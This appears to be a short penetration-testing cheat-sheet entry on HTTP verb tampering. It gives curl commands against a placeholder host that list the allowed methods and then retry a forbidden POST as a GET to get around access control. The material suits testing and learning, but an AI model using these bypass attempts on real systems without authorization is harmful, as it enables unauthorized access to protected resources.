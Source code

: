 # HTTP Verb Tampering

> Verb tampering could be used to bypass authentication. Test also for PUT or DELETE verbs.

Web Applications can include authentication to certain parts of the site only to a single method (i.e. POST). We can try to bypass authorization using verb tampering:

```bash
#Check available methods:
curl -v -X OPTIONS http://site.com

#Example of 403 Forbidden:
curl -v -X POST http://site.com
Response: HTTP 403 Forbidden

#Doing the same request but with GET can lead to auth bypass
curl -v -X GET http://site.com
Response: HTTP 200 OK
```
